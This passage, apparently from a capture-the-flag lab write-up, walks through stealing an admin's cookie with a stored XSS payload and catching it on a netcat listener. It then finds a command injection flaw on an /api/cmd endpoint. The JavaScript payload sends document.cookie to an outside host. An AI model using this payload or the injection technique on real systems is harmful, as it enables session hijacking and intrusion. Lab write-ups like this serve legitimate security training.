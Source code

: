 
Next craft the payload:
```js
<script>new Image().src='http://10.8.14.151:20000/cookie='+document.cookie;</script>
```
Then make setup the server and try to refresh the forum and see if you will recieve your cookie
```console
kali@kali:~$ nc -lvp 20000
listening on [any] 20000 ...
10.8.14.151: inverse host lookup failed: Unknown host
connect to [10.8.14.151] from (UNKNOWN) [10.8.14.151] 48702
GET /cookie=authid=9dd22399fb1f4fdacb008d861576680c4d34607b HTTP/1.1
Host: 10.8.14.151:20000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.165.251:3000/home
Connection: keep-alive
```
Yep it is working! so let run the server again and wait for admin to login!!
```console
kali@kali:~$ nc -lvp 20000
listening on [any] 20000 ...
10.10.165.251: inverse host lookup failed: Unknown host
connect to [10.8.14.151] from (UNKNOWN) [10.10.165.251] 37236
GET /cookie=authid=2564799XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX HTTP/1.1
Host: 10.8.14.151:20000
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3844.0 Safari/537.36
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Referer: http://localhost:3000/admin
Accept-Encoding: gzip, deflate
```
GLHF
# Day 19 : Commands
```
Another day, another hack from the Christmas Monster. Can you get back control of the system?

Access the web server on http://[your-ip]:3000/

McSkidy actually found something interesting on the /api/cmd endpoint.
```
READ [this](https://docs.google.com/document/d/1W65iKmUMtz-srteErhrGFJkWBXJ4Xk5PYlCZVMIZgs8/edit)

## What are the contents of the user.txt file?
We got a hit that we should check http://[your-ip]:3000/api/cmd/. I notice by the url name that it have something to do with ```cmd.exe```. So I start playing around by executing ```http://[your-ip]:3000/api/cmd/id``` and yes we found the vulnerability!! Command Injection. now try the following cmd to find the flag (hint: some where in ```/home```)
1. cat 
2. dir
3. dont forget URL encoding: %20 for space %2F for slash
GLHF
# Day 20 : Cronjob Privilege Escalation 
```
You think the evil Christmas monster is acting on Elf Sam's account!

Hack into her account and escalate your privileges on this Linux machine.
```